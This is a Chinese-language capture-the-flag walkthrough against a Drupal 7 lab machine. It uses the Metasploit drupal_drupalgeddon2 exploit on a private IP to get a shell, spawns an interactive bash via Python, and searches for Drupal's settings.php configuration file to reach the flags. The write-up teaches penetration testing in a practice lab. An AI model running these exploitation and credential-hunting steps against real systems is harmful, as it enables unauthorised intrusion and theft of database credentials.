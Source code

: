 ![图片描述](https://static.cdnjs.cloud/20210807/image-1628336732827_615880794987.png)

```
1.已知开源CMS-Drupal 版本：7
2.中间件服务器：apache 版本：2.2.22
3.php版本：5.4.45
4.数据库类型：mysql
```

# 攻击测试
1. 已知程序是开源drupalCMS，尝试使用cms漏洞攻击
这里利用kali-msf搜索cms模块—–search drupal

![图片描述](https://static.cdnjs.cloud/20210808/image-1628383479011_159489903672.png)

经过尝试发现攻击荷载—exploit/unix/webapp/drupal_drupalgeddon2可以使用
攻击荷载信息配置
```
msf5 > use exploit/unix/webapp/drupal_drupalgeddon2 
msf5 exploit(unix/webapp/drupal_drupalgeddon2)>show options
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 192.168.43.6
run
```
![图片描述](https://static.cdnjs.cloud/20210808/image-1628383855991_204143614666.png)
攻击成功

# 漏洞利用
接下来是对5个flag获取的详细记录
# 获取flag1

使用ls查看目录，拿到flag1.txt
![图片描述](https://static.cdnjs.cloud/20210808/image-1628383900654_148997322421.png)

![图片描述](https://static.cdnjs.cloud/20210808/image-1628383949122_417458353130.png)
翻译flag提示
>每一个好的CMS都需要一个配置文件-你也一直需要

提示配置文件，想到网站cms的根配置文件，网上查询drupal配置文件位置

![图片描述](https://static.cdnjs.cloud/20210808/image-1628384067764_299537758954.png)

按照提示信息，去看看它的配置文件
首先进入交互式shell：python -c 'import pty; pty.spawn("/bin/bash")' 
![图片描述](https://static.cdnjs.cloud/20210808/image-1628384124618_752063321233.png)

找到配置文件位置
```
find / -name settings.php
```
![图片描述](https://static.cdnjs.cloud/20210808/image-1628384166855_320240989322.png)

